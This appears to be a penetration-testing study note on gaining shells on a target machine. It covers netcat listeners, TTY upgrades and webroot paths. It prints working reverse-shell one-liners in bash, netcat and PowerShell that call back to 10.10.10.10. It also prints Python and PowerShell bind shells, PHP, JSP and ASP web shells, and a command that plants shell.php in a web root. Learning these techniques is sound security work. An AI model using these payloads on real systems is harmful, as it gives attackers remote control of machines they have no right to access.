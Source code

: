 # Shellings

Means getting a active bash session on the target machine, which allows to execute CLI commands. Usually done exploiting an RCE vulnerability.

There are different types of shelling.

| Type of shelling | Method of communicaton |
| - | - |
| Reverse shell | Target machine connects to us and gives us control to run any command |
| Bind | shell | We open a connection on a target machine |
| Web shell | It's when server accepts commands through HTTP parameters |

## Reverse shell

To launch a netcat listener server on our machine:

`nc -lvnp 1234`
-  `-l` means to open server on listen mode
- `-v` verbose mode, which means output is given on any action (connect, disconnect, etc.)
- `-n` Disables DNS resolution which reduces latency as we connect from IP to IP
- `-p 1234` port number netcat is listening on
When we have this server open, we can make the target connect to it through RCE. Though the connection is fragile as session can be interrupted by connection loss or someone ctrl+c'ing.

```
you can find your IP on linux with ip a or on windows with ipconfig. It's needed for when reverse shelling on target
```

What to execute on target machine depends on OS

[Reverse shell commands for different bashes and languages](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

These are reliable commands that can be run on target for reliable reverse shell:
``` bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

And when we receive a message on our listener server we are in.

## Bind shell

[Bind shell payload cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md#ncat)


Bind shell is when you manage to create a listener server on target and you connect to it.

Reliable commands for opening a listener server on the target. 

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
to connect to a listener server with netcat we can run a command:
`nc ip 1234`

It's better because we can now interrupt shell from our side, and we decide to connect back we can do that by just nc'ing.

## Upgrading TTY

Netcat sucks. You can move text cursor, nor you can access command history with up and down. 

But we can do that, we need to upgrade our connection to TTY. We can map our terminal TTY to remote TTY.

### TTY upgrade with `python/stty`

On our machine we run 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
After the command - `ctrl+z` to background our shell 
then we run:
```bash
stty raw -echo
fg
```
After `fg` it will bring our `netcat` to foreground. The terminal will show blank line. We can hit enter again to get back to our shell or input reset and hit enter to bring it back.

It's possible to change `stty` window side.
We get variables
```bash
echo $TERM
stty size
```
now we can set them
```bash
export TERMP=xterm-256color
stty rows 67 columns 318
```

## Web Shell

Web shell is usually an injected PHP or ASPX script that accepts our commands through HTTP request parameters such as `GET` or `POST` executes the command and print its output back.

Short web shell scripts
```php
<?php system($_REQUEST["cmd"]); ?>
```
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
```asp
<% eval request("cmd") %>
```

Once we can execute commands we need to place our shell script into remote host web directory. This cn be done through a vulnerability in an upload feature.

Default webroots for common webservers

| Web server | Default Webroot |
| - | - | 
| Apache | `/var/www/html/` |
| Nginx | `/usr/local/nginx/html` |
| IIS | `c:\inetpub\wwwroot` |
| XAMPP | `C:\xampp\htdocs` |

If we knew the directory we could write our `.php` (or any script) file.
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

Now to access our web shell we would just cURL into the website using `shell.php` with paramter `?cmd=` which value would be the command we would like to execute

Web shell benefits:
- Bypasses firewalls as the server itself is issuing the commands through the OS which was exploited by using a web site 
- Even if the compromised host is rebooted the exploit file is still there
Disadvantage of web shell are is that it's not as interactive as the other shells.